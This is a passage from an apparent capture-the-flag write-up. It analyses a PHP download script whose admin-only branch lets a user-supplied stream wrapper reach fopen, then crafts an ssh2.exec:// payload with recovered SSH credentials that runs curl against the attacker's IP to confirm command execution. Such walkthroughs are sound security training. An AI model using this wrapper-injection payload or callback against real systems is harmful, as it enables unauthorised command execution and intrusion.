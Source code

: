 Now, let's give a quick look again over `download.php`:
```php
// Allow immediate file download
        if ($_GET['dl'] === "true") {

                header('Content-Type: application/octet-stream');
                header("Content-Transfer-Encoding: Binary");
                header("Content-disposition: attachment; filename=\"" .$fileName. "\"");
                readfile($fetched[0]);
        // BETA (Currently only available to the admin) - Showcase file instead of downloading it
        } elseif ($_GET['show'] === "true" && $_SESSION['erauser'] === 1) {
                $format = isset($_GET['format']) ? $_GET['format'] : '';
                $file = $fetched[0];

                if (strpos($format, '://') !== false) {
                        $wrapper = $format;
                        header('Content-Type: application/octet-stream');
                } else {
                        $wrapper = '';
                        header('Content-Type: text/html');
                }

                try {
                        $file_content = fopen($wrapper ? $wrapper . $file : $file, 'r');
                        $full_path = $wrapper ? $wrapper . $file : $file;
                        // Debug Output
                        echo "Opening: " . $full_path . "\n";
                        echo $file_content;
                } catch (Exception $e) {
                        echo "Error reading file: " . $e->getMessage();
                }
        } 
```

As we can see, there is some special logic for admin user, that we owned, which let's him execute this line:
```php
$file_content = fopen($wrapper ? $wrapper . $file : $file, 'r');
```

Then, we can read this paper https://www.php.net/manual/en/wrappers.ssh2.php about `ssh2` wrappers. In manner way, we can use wrapper like this pattern to execute command:
```bash
ssh2.exec://user:pass@example.com:22/usr/local/bin/somecmd
```

this will be the payload we are gonna give to test if it's working:
```bash
ssh2.exec://yuri:mustang@localhost:22/curl http://10.10.16.49:8081/GET_ME;%23
```
basically, we connect to local ssh using the credentials of `yuri`, which probably are the same in the `ftp` and `ssh` services.
Then, we execute some command to test if we can access our attacker machine. the `%23` is decoded to `#`, and meant to "comment" the rest of the appending, which is `files/signing.zip`.
